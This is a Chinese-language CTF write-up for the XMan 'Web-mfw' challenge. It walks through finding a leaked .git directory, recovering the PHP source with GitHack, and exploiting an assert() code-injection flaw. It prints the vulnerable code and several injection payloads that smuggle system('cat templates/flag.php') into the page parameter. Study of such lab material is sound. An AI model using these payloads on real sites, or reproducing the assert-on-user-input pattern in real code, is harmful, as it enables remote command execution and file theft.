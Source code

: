 ## XMan Web-mfw

**工具：**GitHack,dirsearch**知识点：**

打开题目场景，检查网站，发现这样一个页面





![img](https://upload-images.jianshu.io/upload_images/10148719-fa13e01ee3cb7eef.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/493/format/webp)

image.png



访问.git目录，疑似存在git源码泄露





![img](https://upload-images.jianshu.io/upload_images/10148719-aebb660b0ea56299.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/600/format/webp)

image.png

再用dirsearch扫描，发现git源码泄露：





![img](https://upload-images.jianshu.io/upload_images/10148719-726ff091784a3cd6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/737/format/webp)





使用 GitHack获取源码





![img](https://upload-images.jianshu.io/upload_images/10148719-981c9e67174c1c70.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/733/format/webp)




 得到源码



![img](https://upload-images.jianshu.io/upload_images/10148719-af36984307dc5e63.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/276/format/webp)





index.php中关键代码如下

```php
<?php

if (isset($_GET['page'])) {
    $page = $_GET['page'];
} else {
    $page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

如果这个字符串中没有找到相应的子字符串 就返回false
// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
assert() 检查一个断言是否为 FALSE
strpos() 函数查找字符串在另一字符串中第一次出现的位置。如果没有找到则返回False
file_exists() 函数检查文件或目录是否存在。
assert()函数会将括号中的字符当成代码来执行，并返回true或false。
```

payload:`?page=abc') or system("cat templates/flag.php");//`

$file =templates/ abc') or system("cat templates/flag.php");// ".php"
 因为在strpos中只传入了abc，所以其肯定返回false，在利用or让其执行system函数，再用" // "将后面的语句注释掉
 查看网页源代码





![img](https://upload-images.jianshu.io/upload_images/10148719-9fec8909c4296d17.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/768/format/webp)



其它payload:

  about.php', '123') === false and system('cat templates/flag.php') and strpos('templates/flag



flag','..')+or+system('cat+templates/flag.php');// 

assert语句里的strops是单引号，我们就将其闭合，并执行系统命令获取flag.php文件内容，同时将后面的die语句注释掉